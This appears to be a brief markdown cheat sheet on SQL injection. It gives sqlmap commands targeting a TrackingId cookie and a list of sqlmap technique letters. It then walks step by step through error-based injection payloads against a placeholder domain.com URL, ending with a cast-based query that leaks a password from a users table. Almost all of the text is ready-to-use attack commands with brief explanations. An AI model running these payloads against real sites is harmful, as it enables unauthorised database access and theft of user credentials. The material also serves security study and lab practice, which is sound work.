 # sqlmap command to attack 

`sqlmap -u "url" -p cookies="TrackingId=*" --technique=`

`sqlmap -r req.txt -p cookies="TrackingId=*" --technique=`


The list of techniques with its letters is as follows:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries


# sql injection payload for error based technique


`http://domain.com/index.php?id=1' order by 1-- -`


1. This query musn't shows up error, since there is no lower number than 1
2. order by 1: mean arrage the result in asscending order by the first column of the table


`http://domain.com/index.php?id=xyz' UNION SELECT 1--`


1. return **ERROR: UNION types character varying and integer cannot be matched** mean id's type is character while 1 is type of integer

`http://domain.com/index.php?id=1' and 1=cast((select 'abc') as int)--`

1. ERROR: invalid input syntax for type integer: "abc". Notice that the string abc is show in the error
2. Try to select the password

`http://domain.com/index.php?id=1' and 1=cast((select password from users limit 1) as int)--`

1. ERROR: invalid input syntax for type integer: "gvq5xw5rszwpbbst7ksl". The value of password is shown
